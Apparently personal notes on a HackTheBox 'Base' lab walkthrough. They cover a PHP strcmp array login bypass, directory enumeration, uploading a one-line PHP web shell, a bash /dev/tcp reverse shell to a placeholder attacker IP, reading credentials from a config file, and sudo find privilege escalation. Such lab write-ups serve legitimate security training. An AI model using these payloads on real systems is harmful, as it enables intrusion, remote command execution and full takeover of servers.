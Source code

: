PHP is one of the most popular back-end languages in the world. It's flexible, cross-platform compatible,
cost-efficient and easy to learn. Services like Facebook, Wikipedia, Tumblr, HackTheBox, and Yahoo are built
with PHP, not to mention Wordpress and other content management systems. However, PHP can often bqe
misconfigured, which leaves huge vulnerability holes in the system, which cyber criminals could exploit.
Ethical Hackers & Penetration testers need to know how PHP works, along with the many varieties of
misconfiguration that they can discover. The Base machine teaches us how useful it is to analyze code &
how one slight mistake can lead to a fatal vulnerability.


enum es el script para hacer nmap, whichsys, OS-type


Change the POST data as follows to bypass the login.
This converts the variables to arrays and after forwarding the request, strcmp() returns true and the
login is successful. Once logged in, we see a file upload functionality.
username[]=admin&password[]=pass


Foothold
Since the webpage can execute PHP code, we can try uploading a PHP file to check if PHP file uploads are
allowed or not, and also check for PHP code execution.
Let us create a PHP file with the phpinfo() function, which outputs the configurational information of the
PHP installation.

echo "<?php phpinfo(); ?>" > test.php

After test.php has been created, choose the file after clicking the Upload button, and we will be
presented with the following notification, which shows that the file was successfully uploaded.

#we search for the folder uploads
gobuster dir --url http://10.10.10.48/ --wordlist /usr/share/wordlists/dirb/big.txt

Upon clicking on test.php , we can see the output of the phpinfo() command, thus confirming code
execution.
Let us now create a PHP web shell which uses the system() function and a cmd URL parameter to execute
system commands.
Place the following code into a file called webshell.php .

<?php echo system($_REQUEST['cmd']);?>



![Screenshot 2024-03-21 at 00.26.19.png](:/5e785a1676694fc8ab83e029834f808b)


In the repeater tab, we can alter the request and set the following reverse shell payload as a value for the
cmd parameter.

/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'

This reverse shell payload will make the remote host connect back to us with an interactive bash shell on
the specified port that we are listening on.

/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'



![Screenshot 2024-03-21 at 00.27.38.png](:/3c22a99c32364ef0ad1173859011c74c)
In order to execute our payload, we will have to first URL encode it. For URL encoding the payload, select
the payload text in the request body and press CTRL+U .


found the password in cat /var/www/html/login/config.php


According to GTFOBins , we need to run the following command in order to escalate our privileges:
GTFOBins is a curated list of Unix binaries that can be used to bypass local security
restrictions in misconfigured systems.

sudo find . -exec /bin/sh \; -quit












[Base.pdf](:/bab66257449b4e70b01d8ba5a1015240)